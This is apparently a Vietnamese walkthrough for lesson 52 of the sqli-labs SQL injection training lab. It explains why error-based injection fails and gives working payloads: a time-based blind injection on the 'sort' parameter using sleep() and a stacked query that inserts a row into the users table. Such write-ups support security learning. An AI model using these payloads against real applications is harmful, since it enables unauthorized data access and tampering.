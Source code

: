 # Những việc làm được với lesson-52
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-52

![](../images/lesson52/screen_5.png)

Ta sẽ thử nhập và thêm giá trị đặc biệt như bài trước 

![](../images/lesson52/screen.png)

Nó không hiển thị ra lỗi chứng tỏ rằng ta không thể sử dụng được error-base như bài trước nữa mà ta phải sử dụng time-base 

1. Tìm cấu trúc của bài 
```
192.168.80.225/sqli-labs/Less-52/?sort=1 --+
```

2. Sử dụng time-base 
Tương tự như các bài khác ta sẽ có cấu trúc sau 
```
192.168.80.225/sqli-labs/Less-52/?sort=1 and if(substr((select @@version),1,3)='5.5',sleep(1),false) --+
```

![](../images/lesson52/screen_1.png)

Ta có thểm tìm cấu trúc DB của nó với cách như thế này 

3. Sử dụng thêm lệnh trong câu truy vấn. Vì bài này có thể sử dụng được thêm lệnh do cấu trúc của nó được đặt sẵn
```
192.168.80.225/sqli-labs/Less-52/?sort=1;  insert into users values (52,'ad','ad'); --+
```

![](../images/lesson52/screen_2.png)

